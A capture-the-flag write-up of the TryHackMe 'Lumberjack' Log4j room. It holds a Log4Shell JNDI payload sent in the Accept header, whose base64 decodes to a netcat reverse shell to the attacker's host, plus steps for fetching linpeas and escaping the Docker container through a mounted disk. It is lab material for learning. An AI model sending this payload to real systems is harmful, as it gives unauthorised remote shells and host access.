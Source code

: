 Hello everyone this is my first ctf writeup. Name of the box is Lumberjack from tryhackme, it’s based on Log4j (CVE-2021-44228) it is a medium level challenge.

Created by : SilverStr

Let’s start with basic recons

Recon:

nmap -sC -sV -Pn 10.10.120.161

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.001.png)

Results from nmap showed 2 open ports

In ssh there is nothing to see so went to check up the http port 80.

\--------------------------------------------------------------------------------------------------------------------------------------

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.002.png)

Nothing to see in this port. After that I used burp to capture the request of this site.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.003.png) 

They give a resource to refer the log4j vulnerability. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.004.png)

**References used to make this room:**

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- Malicious LDAP servers are fun. (Come on.... work for it a bit)

I send the request to repeater and I used basic payload of log4j to manipulate the request via the user agent but I didn’t get any proper response. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.005.png)

I saw the accept “request header” in burp .so, I decided to send the payload via the accept header.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.006.png)

I got the proper response via this accept header.

Let’s try to get shell using JNDIexploit...

Java -jar JNDIExlpoit-1.2-SNAPSHOT.jar -u

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.007.png)

I used this payload for the reverse shell via nc.

Let’s set the exploit:

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.008.png)

Reverse shell payload to base 64.

${jndi:ldap://10.8.19.239:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjguMTkuMjM5IDQ0NDQgPi90bXAvZg==}


![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.009.png)

I send the payload via the accept header. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.010.png)

Finally, I got the shell. Let’s find the 1st flag;

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.011.png)

It’s a docker environment... I go to the opt directory for flag’s 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.012.png)![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.014.png)



I got the 1st flag …

cat .flag1 

Let’s check for 2nd flag, after long time I decide to use linpease to know vulnerabilities.

I will set the python server to get the linpeas from my machine to that vuln machine.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.015.png)

Let’s give the execute permission to the linpeas chmod +x linpeas.sh and run the linpeas

I saw the suid unmount in the bin directory..

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.016.png)

Let’s see what is in dev directory, I found some directories which is unmounted on disk.

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.017.png)  

Make the empty directory in the tmp directory ‘123’ to mount it. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.018.png)

After that I will go to the root directory which is on mounted folder ‘123’

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.019.png)






On the root directory I saw the root.txt, but here I got depressed. 

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.020.png) 

After few moments I saw the directory which is ‘…’ 

cd …;ls -la

cat .\_fLaG2

![image](/lumberjack/img/Aspose.Words.b75ce199-092b-4751-a9a2-ba6f523f07c9.022.png)

At last, I found the final flag. A wonderful medium level ctf to know what is log4j and how its working

 .................................................Happy learning & Hunting ...................................................




